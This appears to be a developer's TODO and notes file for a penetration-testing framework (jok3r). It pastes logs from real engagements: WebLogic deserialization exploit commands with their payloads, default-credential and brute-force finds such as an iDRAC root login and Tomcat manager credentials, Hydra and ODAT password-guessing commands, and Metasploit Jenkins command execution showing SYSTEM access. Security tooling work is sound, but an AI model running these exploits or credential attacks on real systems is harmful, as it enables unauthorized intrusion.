 =====
TODO
=====


Docker Environment
==================
* IMPORTANT: RE INSTALL odat !! 



current => AttackController line 80






BUG FIXES
===============================================================================

- db > services --up
  File "/root/jok3r/lib/requester/Condition.py", line 125, in __translate_up
    val = (value.lower() == 'true')

- db > service -S -> recherche par url semble pas marcher

- db > services - ip ranges selection bug





IMPROVEMENTS / NEW FEATURES
===============================================================================
- new filter -f: on banner keyword (ex: banner=tomcat)

- wappalyzer implementation avec versions => based on https://github.com/kanishk619/wappalyzer-python (working)

- Delete product: and version: in banner:
product: Oracle TNS listener version: 12.2.0.1.0 extrainfo

- Deduce OS from banner:
    - ostype: Windows
    - product: Microsoft HTTPAPI... : Microsoft -> Windows
    - product: IBM HTTP Server version: 6.1.0.47 extrainfo: Derived from Apache 2.0.47; Unix -> Linux
    - product: Apache httpd version: 2.4.34 extrainfo: (Red Hat) -> Red Hat Linux

- db> hosts: If hostname == str(ip), do not print hostname

- db> nmap -> import
    -x : Nmap XML
    -f : File storing a list of ip:port and/or urls

- db> results : Add search features

- Ctrl+C -> add possibility to switch fast mode on/off


- IMPORTANT: add option to disable reverse dns lookup in __init_with_ip and __init_with_url in target (to speed up !!)
    => default opt out (+test benchmark du temps pris pour le reverse lookup)

- feature: attack do not rerun check


- AttackProfiles:
    - weak-creds (weak, common, default)
        http -> changeme, htaccess bruteforce quick with common creds admin:admin, admin:password...
        mssql -> msdat passwordguesser sa:sa sa:
        oracle -> tnscmd pour sid, odat passwordguesser avec sid
        ajp -> ajp bf
        ...

    - advanced-creds-bruteforce
        (include weak-creds checks)

    - fast-scan
    - vuln-lookup-banner (require banner grabbing enabled or banner already retrieved in imported nmap scan)

    - web-scan-appserver
    - web-scan-cms
    - web-discovery
    - web-discovery-fast


- discovery-* checks:
    - appserver-wordlist
    - cms-wordlist
    - language-wordlist (per language => lots of work to produce wordlists for each language + add generic ie HTML, XML, LOG, TXT...)
    - general-minimal-wordlist
    - general-wordlist (raft directory)



- Auth types:
    - supported auth-type => only type that support various status/lvl (can be added in cmdline)
    - can accept other values (eg creds trouvés par changeme) and can be displayed in db>creds
    - method for creds retrival in postrun

* Reporting HTML:
    * Template https://www.jqueryscript.net/menu/Bootstrap-Sidebar-Extension-With-jQuery-CSS-CSS3.html
    * https://www.jqueryscript.net/demo/Bootstrap-Sidebar-Extension-With-jQuery-CSS-CSS3/
    * http://www.finalhints.com/live-search-in-html-table-using-jquery/
    * At the end, prompt to open in browser like in eyewitness

* Do not re-run checks already done

* AttackProfiles info --attack-profiles

* info --products

* Ctrl-C better handler 
    * skip current, 
    * exit ? (not working, recheck), 
    * switch fast mode

* Nmap import: filter on nmap results to add

* Specific options management

* Products management





SMART MODULES / REGEXP
===============================================================================
- update regexp version number => ne doit pas finir par un point

- clusterd :
  InsecureRequestWarning)
11-19 03:53PM] Making GET request to https://lons00115973.euro.net.intra:443/console with arguments {'verify': False, 'timeout': 5.0}
[2018-11-19 03:53PM] Checking weblogic version 8.1 WebLogic Admin Console...
[2018-11-19 03:53PM] Making GET request to https://lons00115973.euro.net.intra:443/console with arguments {'verify': False, 'timeout': 5.0}
[2018-11-19 03:53PM] Matched 2 fingerprints for service weblogic
[2018-11-19 03:53PM]    WebLogic Admin Console (version 12)
[2018-11-19 03:53PM]    WebLogic Admin Console (https) (version 12)
[2018-11-19 03:53PM] Fingerprinting completed.
[2018-11-19 03:53PM] Loading auxiliary for 'weblogic'...
[2018-11-19 03:53PM]   Gather WebLogic info (--wl-info)
[2018-11-19 03:53PM]   List deployed apps (--wl-list)
[2018-11-19 03:53PM]   Obtain SMB hash (--wl-smb)
[2018-11-19 03:53PM] Finished at 2018-11-19 03:53PM


- changeme with empty creds:
[16:40:23] Configured protocols: http
[16:40:23] Loading creds into queue
[16:40:23] Jenkins body matched: <title>Dashboard \[Jenkins\]</title>
[16:40:23] Fingerprinting completed
[16:40:23] [+] Found Jenkins default cred : at http://10.243.134.22:8080/
[16:40:23] Scanning Completed
[16:40:24] Found 1 default credentials

Name     Username    Password    Target                      Evidence
-------  ----------  ----------  --------------------------  ----------
Jenkins                          http://10.243.134.22:8080/


- Add product detection in ajp:
        [>] [Recon][Check 02/02] tomcat-version > Fingerprint Tomcat version through AJP
        match auth lvl: True
        match specific: True
        [*] Run command #01

                                                                                                                                                                                                              
        cmd> python2.7 tomcat.py -v --port 8009 version 10.4.16.53                                                                                                                                            

        [2018-11-16 15:14:13.524] DEBUG    Getting resource at ajp13://10.4.16.53:8009/blablablablabla
        Apache Tomcat/7.0.27



- loubia successful :
[>] [Exploit][Check 07/11] weblogic-t3-deserialize-cve2015-4852 > Exploit Java deserialization in Weblogic T3(s) (CVE-2015-4852)
match auth lvl: True
match specific: True
[*] Command #01 is matching current target's context: {'server': ['weblogic']}

[?] Run command #01 ? [Y/n/t/w/q] 


                                                                                                                                                                                                      
cmd> echo "[~] Will try to ping local IP = 10.250.58.108"; echo "[~] Running tcpdump in background..."; sudo sh -c "tcpdump -U -i any -w /tmp/dump.pcap icmp &" ; python2.7 loubia.py 10.2.211.136 443 -s -o unix -c '/bin/ping -c 4 10.250.58.108' -v; python2.7 loubia.py 10.2.211.136 443 -s -o win -c 'ping -n 4 10.250.58.108' -v; echo "[~] Wait a little bit..."; sleep 3; PID=$(ps -e | pgrep tcpdump); echo "[~] Kill tcpdump"; sudo kill -9 $PID; sleep 2; echo "[~] Captured ICMP traffic:"; echo; sudo tcpdump -r /tmp/dump.pcap; echo "[~] Delete capture"; sudo rm /tmp/dump.pcap                   

[~] Will try to ping local IP = 10.250.58.108
[~] Running tcpdump in background...
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
[INFO] Connecting to 10.2.211.136 port 443

[INFO] Sending t3 headers:
t3s 10.3.6
AS:255
HL:19


[INFO] Received t3 handshake response:
HELO:12.1.3.0.false
AS:2048
HL:19
MS:10000000


[INFO] Supplied payload: /bin/ping -c 4 10.250.58.108

[INFO] Final payload 001c2f62696e2f70696e67202d6320342031302e3235302e35382e313038

[INFO] Malicious packet sent

[INFO] Connecting to 10.2.211.136 port 443

[INFO] Sending t3 headers:
t3s 10.3.6
AS:255
HL:19


[INFO] Received t3 handshake response:
HELO:12.1.3.0.false
AS:2048
HL:19
MS:10000000


[INFO] Supplied payload: ping -n 4 10.250.58.108

[INFO] Final payload 001770696e67202d6e20342031302e3235302e35382e313038

[INFO] Target os is win: using "cmd.exe /c"

[INFO] Malicious packet sent

[~] Wait a little bit...
[~] Kill tcpdump
[~] Captured ICMP traffic:

reading from file /tmp/dump.pcap, link-type LINUX_SLL (Linux cooked)
15:54:24.036988 IP lons00115973.uk.net.intra > 10.250.58.108: ICMP echo request, id 1, seq 1, length 40
15:54:24.037023 IP 10.250.58.108 > lons00115973.uk.net.intra: ICMP echo reply, id 1, seq 1, length 40
15:54:25.038770 IP lons00115973.uk.net.intra > 10.250.58.108: ICMP echo request, id 1, seq 2, length 40
15:54:25.038825 IP 10.250.58.108 > lons00115973.uk.net.intra: ICMP echo reply, id 1, seq 2, length 40
15:54:26.040031 IP lons00115973.uk.net.intra > 10.250.58.108: ICMP echo request, id 1, seq 3, length 40
15:54:26.040071 IP 10.250.58.108 > lons00115973.uk.net.intra: ICMP echo reply, id 1, seq 3, length 40
[~] Delete capture


- example banners:
- 767 | 10.6.4.23      | 1521 | tcp   | oracle  | product: Oracle TNS listener version: 12.2.0.1.0 extrainfo: |     |         | 0      |       |
|       |                |      |       |         | unauthorized                                                |     |         |        |       |
| 18912 | 10.6.32.121    | 1521 | tcp   | oracle  | product: Oracle TNS listener version: 12.2.0.1.0 extrainfo: |     |         | 0      |       |
|       |                |      |       |         | unauthorized                                                |     |         |        |       |
| 19732 | 10.243.136.130 | 1521 | tcp   | oracle  | product: Oracle TNS listener version: 11.2.0.2.0 extrainfo: |     |         | 0      |       |
|       |                |      |       |         | unauthorized      

-  21503 | 10.190.10.32   | 443  | tcp   | http    | product: Apache Tomcat version: 8.5.8                 | https://10.190.10.32:443   |         | 0      |       |
| 21519 | 10.190.10.41   | 443  | tcp   | http    | product: Apache Tomcat/Coyote JSP engine version: 1.1 | https://10.190.10.41:443   |         | 0      |       |
| 21521 | 10.190.10.42   | 443  | tcp   | http    | product: Apache Tomcat/Coyote JSP engine version: 1.1 



- smartmodule -> webdav
    _http-iis-webdav-vuln: WebDAV is DISABLED


- MS17-010 not detected: ==> ) -> \) + LIKELY
  
        if re.search('Microsoft Windows system vulnerable to remote code execution \(MS08-067\)\s*(\r\n|\r|\n)\|\s*State: (LIKELY )?VULNERABLE', 
                     cmd_output, re.IGNORECASE):
            r.add_option('vuln-ms08-067', 'true')

        if re.search('Remote Code Execution vulnerability in Microsoft SMBv1 servers \(ms17-010\)\s*(\r\n|\r|\n)\|\s*State: (LIKELY )?VULNERABLE',
                     cmd_output, re.IGNORECASE):
            r.add_option('vuln-ms17-010', 'true')

        if re.search('SAMBA Remote Code Execution from Writable Share\s*(\r\n|\r|\n)\|\s*State: (LIKELY )?VULNERABLE', cmd_output, re.IGNORECASE):
            r.add_option('vuln-sambacry', 'true')



* angularjs -> boolean (angularjs can be used with php,asp...)
*  smartmodule -> webdav
    _http-iis-webdav-vuln: WebDAV is DISABLED

* - ftp patator update smart:
14:04:27 patator    INFO - 502   29     0.006 | anonymous:                         |     1 | PASS command not implemented.
14:04:39 patator    INFO - 421   53     0.008 | anonymous:                         |     1 | Too many users logged in, closing control connection 

* - ftp update smart, add anonymous creds when nmap detect + context req sur bruteforce:
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack HP JetDirect ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_d-w--w--w-   2 JetDirect  public         512 Feb 14  1999 PORT1 [NSE: writeable]

* - add postrun tnscmd_sid
- add re.IGNORECASE tns sid
- add sid detection:
[+] Data received by the database server: ''\x00 \x00\x00\x02\x00\x00\x00\x016\x00\x01\x08\x00\x7f\xff\x00\x01\x01]\x00 \r\x08\x00\x00\x00\x00\x00\x00\x00\x00\x01g\x00\x00\x06\x00\x00\x00\x00\x00(DESCRIPTION=(TMP=)(VSNNUM=153093632)(ERR=0)(ALIAS=LISTENER)(SECURITY=OFF)(VERSION=TNSLSNR for IBM/AIX RISC System/6000: Version 9.2.0.6.0 - Production)(START_DATE=10-NOV-2018 17:56:38)(SIDNUM=1)(LOGFILE=/apps/oracle/9.2.0/network/log/listener.log)(PRMFILE=/apps/oracle/adm/network/listener.ora)(TRACING=off)(UPTIME=23928489)(SNMP=OFF)(PID=7995588))\x02Q\x00\x00\x06\x00\x00\x00\x00\x00(ENDPOINT=(HANDLER=(HANDLER_MAXLOAD=0)(HANDLER_LOAD=0)(ESTABLISHED=0)(REFUSED=0)(HANDLER_ID=7A5359F37007-00C4-E053-9F32E94200C4)(PRE=any)(SESSION=NS)(DESCRIPTION=(ADDRESS=(PROTOCOL=tcp)(HOST=parva7301586)(PORT=1521))))),,(SERVICE=(SERVICE_NAME=METHFRP1_DGMGRL.world)(INSTANCE=(INSTANCE_NAME=METHFRP1)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,(SERVICE=(SERVICE_NAME=ROG2WDP0_DGMGRL.world)(INSTANCE=(INSTANCE_NAME=ROG2WDP0)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,(SERVICE=(SERVICE_NAME=RSS0WDP1)(INSTANCE=(INSTANCE_NAME=RSS0WDP1)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,''

- Check this case where sid=LISTENER ??

         cmd> python2.7 odat.py tnscmd -s 10.190.98.154 -p 1521 -d any --ping -v                                                                                                                               

        16:49:05 INFO -: alias list emptied
        16:49:05 INFO -: Data received thanks to the 'ping' cmd: '\x00A\x00\x00\x04\x00\x00\x00"\x00\x005(DESCRIPTION=(TMP=)(VSNNUM=0)(ERR=0)(ALIAS=LISTENER))'

        [1] (10.190.98.154:1521): Searching ALIAS on the 10.190.98.154 server, port 1521
        [+] 1 ALIAS received: ['LISTENER']. You should use this alias (more or less) as Oracle SID.

                                                                                                                                                                                                              


        [*] [SMART] Running post-check method "tnscmd_sid" ...
        [+] [SMART] New detected option: sid = LISTENER

        [?] Run command #02 ? [Y/n/t/w/q] q




- add postrun tnscmd_sid
- add re.IGNORECASE tns sid
- add sid detection:
[+] Data received by the database server: ''\x00 \x00\x00\x02\x00\x00\x00\x016\x00\x01\x08\x00\x7f\xff\x00\x01\x01]\x00 \r\x08\x00\x00\x00\x00\x00\x00\x00\x00\x01g\x00\x00\x06\x00\x00\x00\x00\x00(DESCRIPTION=(TMP=)(VSNNUM=153093632)(ERR=0)(ALIAS=LISTENER)(SECURITY=OFF)(VERSION=TNSLSNR for IBM/AIX RISC System/6000: Version 9.2.0.6.0 - Production)(START_DATE=10-NOV-2018 17:56:38)(SIDNUM=1)(LOGFILE=/apps/oracle/9.2.0/network/log/listener.log)(PRMFILE=/apps/oracle/adm/network/listener.ora)(TRACING=off)(UPTIME=23928489)(SNMP=OFF)(PID=7995588))\x02Q\x00\x00\x06\x00\x00\x00\x00\x00(ENDPOINT=(HANDLER=(HANDLER_MAXLOAD=0)(HANDLER_LOAD=0)(ESTABLISHED=0)(REFUSED=0)(HANDLER_ID=7A5359F37007-00C4-E053-9F32E94200C4)(PRE=any)(SESSION=NS)(DESCRIPTION=(ADDRESS=(PROTOCOL=tcp)(HOST=parva7301586)(PORT=1521))))),,(SERVICE=(SERVICE_NAME=METHFRP1_DGMGRL.world)(INSTANCE=(INSTANCE_NAME=METHFRP1)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,(SERVICE=(SERVICE_NAME=ROG2WDP0_DGMGRL.world)(INSTANCE=(INSTANCE_NAME=ROG2WDP0)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,(SERVICE=(SERVICE_NAME=RSS0WDP1)(INSTANCE=(INSTANCE_NAME=RSS0WDP1)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,''

- Check this case where sid=LISTENER ??

         cmd> python2.7 odat.py tnscmd -s 10.190.98.154 -p 1521 -d any --ping -v                                                                                                                               

        16:49:05 INFO -: alias list emptied
        16:49:05 INFO -: Data received thanks to the 'ping' cmd: '\x00A\x00\x00\x04\x00\x00\x00"\x00\x005(DESCRIPTION=(TMP=)(VSNNUM=0)(ERR=0)(ALIAS=LISTENER))'

        [1] (10.190.98.154:1521): Searching ALIAS on the 10.190.98.154 server, port 1521
        [+] 1 ALIAS received: ['LISTENER']. You should use this alias (more or less) as Oracle SID.

                                                                                                                                                                                                              


        [*] [SMART] Running post-check method "tnscmd_sid" ...
        [+] [SMART] New detected option: sid = LISTENER

        [?] Run command #02 ? [Y/n/t/w/q] q



- ftp patator update smart:
14:04:27 patator    INFO - 502   29     0.006 | anonymous:                         |     1 | PASS command not implemented.
14:04:39 patator    INFO - 421   53     0.008 | anonymous:                         |     1 | Too many users logged in, closing control connection 

- ftp update smart, add anonymous creds when nmap detect + context req sur bruteforce:
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack HP JetDirect ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_d-w--w--w-   2 JetDirect  public         512 Feb 14  1999 PORT1 [NSE: writeable]



- changeme (ATTENTION, possibilite empty creds : ":"):

    
Loaded 113 default credential profiles
Loaded 324 default credentials

[13:37:15] Configured protocols: http
[13:37:15] Loading creds into queue
[13:37:18] Dell iDRAC body matched: <title>Integrated Dell Remote Access Controller
[13:37:18] Fingerprinting completed
[13:37:20] [+] Found Dell iDRAC default cred root:calvin at https://10.253.27.106:443/data/login
[13:37:20] Scanning Completed


[13:37:20] Found 1 default credentials

Name        Username    Password    Target                                Evidence
----------  ----------  ----------  ------------------------------------  ----------
Dell iDRAC  root        calvin      https://10.253.27.106:443/data/login




-----


[14:58:26] Invalid Apache Tomcat Host Manager default cred admin:tomcat at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred root:root at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred role1:role1 at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred tomcat:changethis at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred role:changethis at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred admin:j5Brn9 at http://10.4.16.198:8080/host-manager/html
[14:58:26] [+] Found Apache Tomcat Host Manager default cred QCC:QLogic66 at http://10.4.16.198:8080/host-manager/html
[14:58:26] [+] Found Apache Tomcat default cred QCC:QLogic66 at http://10.4.16.198:8080/manager/html
[14:58:27] Invalid Apache Tomcat Host Manager default cred role1:tomcat at http://10.4.16.198:8080/host-manager/html
[14:58:27] Scanning Completed


[14:58:27] Found 2 default credentials

Name                        Username    Password    Target                                     Evidence
--------------------------  ----------  ----------  -----------------------------------------  ----------
Apache Tomcat Host Manager  QCC         QLogic66    http://10.4.16.198:8080/host-manager/html
Apache Tomcat               QCC         QLogic66    http://10.4.16.198:8080/manager/html








CHECKS CORRECTIONS
===============================================================================


- samba-rce-cve2015-0240 only if os = *linux*

- Correct path ysoserial:
/jok3r/toolbox/http/exploit-weblogic-cve2017-3248# python2.7 exploits/weblogic/exploit-CVE-2017-3248-bobsecq.py -t 10.2.211.136 -p 443 --ssl --check --ysopath /root/jok3r/toolbox/multi/ysoserial/ysoserial-master.jar


- Mettre /bin/bash -c pour utilisation de <<< + single quote !! dans :
root@kali:~/jok3r/toolbox/http/exploit-weblogic-cve2018-2893# echo "[~] Will try to ping local IP = 10.250.58.108"; echo "[~] Running tcpdump in background..."; sudo sh -c "tcpdump -U -i any -w /tmp/dump.pcap icmp &" ; java -jar ysoserial-cve-2018-2893.jar JRMPClient4 "/bin/ping -c 4 10.250.58.108" > /tmp/poc4.ser; python2.7 weblogic.py 10.2.211.136 443 /tmp/poc4.ser; echo "[~] Wait a little bit..."; sleep 3; PID=$(ps -e | pgrep tcpdump); echo "[~] Kill tcpdump"; sudo kill -9 $PID; sleep 2; echo "[~] Captured ICMP traffic:"; echo; sudo tcpdump -r /tmp/dump.pcap; echo "[~] Delete capture"; sudo rm /tmp/dump.pcap; rm /tmp/poc4.ser

-ODAT: simple quote après /bin/bash !!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!! (sinon $var non prise en compte)
/bin/bash -c 'export ORACLE_HOME=`file /usr/lib/oracle/*/client64/ | tail -n 1 | cut -d":" -f1`; export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib; export PATH=$ORACLE_HOME/bin:$PATH; echo $ORACLE_HOME; python2.7 odat.py passwordguesser -s 10.2.208.173 -p 1521 -d LISTENER -vv --force-retry --accounts-file accounts/accounts_multiple.txt'


- dirsearch : -t 40 --timeout=

- angularjs -> boolean (angularjs can be used with php,asp...)


- tool ajpy=> add option --old-version + list applications

- ajp settings: change dir wordlists
tool        = ajpy
command_1   = python2.7 tomcat.py -v --port [PORT] bf -U [WORDLISTSDIR]/services/http/creds/app-servers/tomcat-usernames.txt -P [WORDLISTSDIR]/services/http/creds/app-servers/tomcat-passwords.txt
postrun     = ajpy_valid_creds

- add --timeout to dirsearch

- odat add -v : python2.7 odat.py tnscmd -s 10.14.17.218 -p 1575 -d any --ping -v

- Replace patator by hydra (more mature, easier to parse outputs, better output)

- DOMI-OWNED  => fonctionne sur 5, 6 et v8

- bug dirhunt
    cmd> dirhunt https://www.correspondant-assurance.fr/bnppere                                                                                                                                           

    Traceback (most recent call last):
      File "/usr/local/bin/dirhunt", line 11, in <module>
        load_entry_point('dirhunt==0.5.1', 'console_scripts', 'dirhunt')()
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 484, in load_entry_point
        return get_distribution(dist).load_entry_point(group, name)
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 2707, in load_entry_point
        return ep.load()
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 2325, in load
        return self.resolve()
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 2331, in resolve
        module = __import__(self.module_name, fromlist=['__name__'], level=0)
      File "/usr/local/lib/python3.6/dist-packages/dirhunt-0.5.1-py3.6.egg/dirhunt/management.py", line 13, in <module>
        from dirhunt.crawler import Crawler
      File "/usr/local/lib/python3.6/dist-packages/dirhunt-0.5.1-py3.6.egg/dirhunt/crawler.py", line 16, in <module>
        from dirhunt.sessions import Sessions
      File "/usr/local/lib/python3.6/dist-packages/dirhunt-0.5.1-py3.6.egg/dirhunt/sessions.py", line 5, in <module>
        from proxy_db.models import Proxy
    ModuleNotFoundError: No module named 'proxy_db.models'


- ./optionsbleed -n 40 -a -u https://www.correspondant-epargne.fr/tpe 
No response , Normal ?

- add exploitations avec clusterd

- [check_mysql-interesting-tables-columns] add context


* odat add -v : python2.7 odat.py tnscmd -s 10.14.17.218 -p 1575 -d any --ping -v

- Add option --webdir-wordlist for check discovery-general-wordlist 




CHECKS ADDING
===============================================================================
- https://github.com/SecWiki/CMS-Hunter
- Add Hydra

- Jenkins scripts:
Attention; TARGETURI / et /jenkins/

msf auxiliary(scanner/http/jenkins_command) > show options 

Module options (auxiliary/scanner/http/jenkins_command):


msf auxiliary(scanner/http/jenkins_command) > run

[+] [2018.11.19-14:37:28] 10.2.153.123:8080     nt authority\system
[*] [2018.11.19-14:37:28] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/jenkins_command) > 
msf auxiliary(scanner/http/jenkins_command) > 
msf auxiliary(scanner/http/jenkins_command) > set TARGETURI /jenkins/
TARGETURI => /jenkins/
msf auxiliary(scanner/http/jenkins_command) > run

[-] [2018.11.19-14:37:51] 10.2.153.123:8080     This system is not running Jenkins-CI at /jenkins/
[*] [2018.11.19-14:37:51] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/jenkins_command) > set TARGETURI /
TARGETURI => /

- Jenkins deserialize

- add exploit/linux/misc/jenkins_java_deserialize (attention: os linux)
- add exploit/windows/misc/ibm_websphere_java_deserialize (os win)
- add auxiliary/scanner/http/jenkins_login
- add exploit/windows/misc/ibm_websphere_java_deserialize
- add https://github.com/Coalfire-Research/java-deserialization-exploits (websphere rce, jenkins rce...)
- add exploit/multi/http/jenkins_script_console
- add msfmodules for different appservers.....
- RCE Tomcat CVE-2017-12617 /usr/share/exploitdb/exploits/jsp/webapps/42966.py
    WARNING: Add verify=False !
            if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                print bcolors.WARNING+url+' it\'s Vulnerable to CVE-2017-12617'+bcolors.ENDC
                print bcolors.WARNING+url+"/"+checker+bcolors.ENDC
                
        else:
            print 'Not Vulnerable to CVE-2017-12617 '


- add bruteforce htaccess hydra if 401 unauthorized returned in headers
hydra -l admin -P ~/github/jok3r/wordlists/passwords/pass_medium.txt -e ns -t 10 -f -s -v -V 10.190.136.194  http-get /
> GET / HTTP/1.1
> Host: 10.190.136.194
> User-Agent: curl/7.58.0
> Accept: */*
> 
< HTTP/1.1 401 Unauthorized
< Content-Type: text/html
< Server: Microsoft-IIS/8.0
< WWW-Authenticate: Negotiate
< WWW-Authenticate: NTLM
< X-Powered-By: ASP.NET
< Date: Fri, 23 Nov 2018 10:15:48 GMT
< Content-Length: 1293


- Sharepoint -> https://github.com/TestingPens/SPartan

- check ms17-010 exploit multi platform

- add ssh cve enum
- add ssh libssh vuln

- ftp postexploit list dir

* Weblogic CVE-2018-2628 https://github.com/tdy218/ysoserial-cve-2018-2628
* https://github.com/chadillac/mdns_recon
* nfsshell (sudo apt-get install libreadline-dev ; make)
* https://github.com/hegusung/RPCScan.git
* https://www.magereport.com
* https://github.com/AlisamTechnology/PRESTA-modules-shell-exploit/blob/master/PRESTA-shell-exploit.pl
* https://github.com/breenmachine/JavaUnserializeExploits
* https://github.com/DanMcInerney/pentest-machine

* Better exploit for MS17-010 (support for more win versions, only Win7 and 2008 R2 for now)

* For all bruteforce with 'auth_status': NO_AUTH -> create command with username known 

* cve jquery
* cve ssh
* vulners-lookup
* cvedetails-lookup
* wordlists per language
* jndiat
* check https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html
* correct start module http 


* Java-RMI -> handle case windows ping -n


- Sharepoint -> https://github.com/TestingPens/SPartan

- tool ajpy=> add option --old-version + list applications

* Improve wordlist quality:
    * passwords
    * wordlist per language
    * wordlist per cms
    * wordlist per server
    * web files/directories:
        * https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content
        * https://github.com/xajkep/wordlists
        * https://www.netsparker.com/blog/web-security/svn-digger-better-lists-for-forced-browsing/
        * Administration: https://github.com/fnk0c/cangibrina/tree/master/wordlists



WORDLISTS ADDING
===============================================================================

- Idea for wordlist services creds: https://github.com/x90skysn3k/brutespray/tree/master/wordlist

- Very Minimalist dirs wordlists

root@kali:~/jok3r/toolbox/http/dirsearch# cat dirs_minimalist.txt 
account
accounts
adm
admin
_admin
Admin
ADMIN
admin2
adminarea
administrator
api
app
appli
application
applis
auth
back
backup
_backup
bak
cache
_cache
common
component
components
conf
config
configuration
control
controller
controllers
core
data
debug
dev
development
doc
docs
document
download
downloads
Downloads
en
error
file
files
Files
fr
ftp
help
html
image
images
img
inc
Inc
include
_include
includes
_includes
Includes
install
lib
manager
modules
old
page
pages
pdf
phpmyadmin
plugins
priv
_priv
_private
pub
public
_public
report
reports
require
script
scripts
secure
service
services
share
site
sites
sql
src
stat
stats
status
temp
Temp
template
templates
test
Test
test1
test2
testing
tests
tmp
tool
tools
tpl
update
updates
upload
uploads
Uploads
user
users
util
utils
webadmin
WEB-INF
www
xml
xmlrpc












- jok3r-script for oracle install:

  - change url + reinstall
  wget https://github.com/koutto/jok3r-scripts/raw/master/oracle/odat-dependencies/oracle-instantclient12.2-sqlplus_12.2.0.1.0-2_amd64.deb
